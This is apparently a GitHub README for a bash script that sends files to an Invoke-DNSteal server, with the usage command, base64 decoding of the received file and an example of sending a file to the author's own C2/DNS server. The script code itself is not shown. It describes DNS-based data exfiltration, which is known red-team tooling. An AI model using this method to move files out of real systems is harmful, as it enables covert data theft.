 # sendFileInvokeDNSteal
Bash script for sending file to Invoke-DNSteal server

# Instructions:
1. Run Invoke-DNSteal.py from https://github.com/JoelGMSec/Invoke-DNSteal in your DNS server
2. Use:
```
./sendFileInvokeDNSteal.sh <file> <domain>
```
3. Decode the received file in base64
```
base64 -d <received_file>
```

Example: Sending byp4xx.py to my own customized C2/DNS server (https://github.com/lobuhi/byp4xx/blob/main/byp4xx.py)
![](dnsteal.jpg)
